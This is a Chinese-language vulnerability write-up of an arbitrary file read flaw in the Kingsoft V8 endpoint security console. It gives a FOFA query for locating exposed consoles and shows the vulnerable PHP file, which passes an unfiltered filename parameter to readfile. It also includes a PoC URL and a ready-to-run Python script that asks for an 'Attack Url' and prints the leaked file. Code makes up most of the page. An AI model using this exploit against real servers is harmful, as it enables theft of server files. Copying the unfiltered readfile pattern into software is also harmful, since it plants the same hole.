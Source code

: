 # 金山 V8 终端安全系统 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 金山 V8 终端安全系统 

## FOFA

> [!NOTE]
>
> title="在线安装-V8+终端安全系统Web控制台"

## 漏洞复现

存在漏洞的文件 **/Console/htmltopdf/downfile.php**

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

文件中没有任何的过滤 通过filename参数即可下载任意文件

POC为

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![](http://wikioss.peiqi.tech/vuln/js-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/js-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Kingsoft V8 Arbitrary file read

![](http://wikioss.peiqi.tech/vuln/js-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)